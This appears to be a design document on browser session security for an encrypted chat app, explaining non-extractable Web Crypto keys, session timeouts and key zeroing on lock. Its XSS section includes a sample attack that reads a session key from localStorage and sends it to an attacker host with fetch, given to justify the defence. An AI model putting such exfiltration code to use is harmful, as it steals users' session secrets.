


# Session Management

## Session Key Architecture

Browser sessions use the Web Crypto API's non-extractable keys for XSS protection:



## XSS Protection

Traditional localStorage-based session storage is vulnerable to XSS attacks:

```javascript
// XSS attack can steal localStorage
const stolen = localStorage.getItem('session_key');
fetch('https://attacker.com/steal', { body: stolen });
```

With non-extractable keys:

```javascript
// Even with code execution, export fails
const key = await getSessionKeyFromIndexedDB();
await crypto.subtle.exportKey('raw', key);
// Throws: InvalidAccessError: key is not extractable
```

## Session Lifecycle



## Session Configuration

```typescript
interface SecuritySettings {
  sessionTimeoutMs: number;      // Default: 30 minutes
  strictSessionLocking: boolean; // Clear on page hide
}
```

## Memory Clearing

On session lock:

```typescript
function lockSession() {
  // Clear in-memory keys
  if (decryptedKeys) {
    sodium.memzero(decryptedKeys.masterKey);
    sodium.memzero(decryptedKeys.privateKey);
    decryptedKeys = null;
  }

  // Clear LRU cache
  chatKeyCache.forEach((key) => sodium.memzero(key));
  chatKeyCache.clear();

  // Clear IndexedDB session
  await clearIndexedDBSession();

  // Update state
  e2eeState = 'locked';
}
```

## Security Guarantees

| Threat | Protection |
|--------|------------|
| XSS key theft | Non-extractable Web Crypto keys |
| Session hijacking | Keys bound to browser instance |
| Idle session exposure | Automatic timeout after inactivity |
| Memory dumping | Keys zeroed on lock |
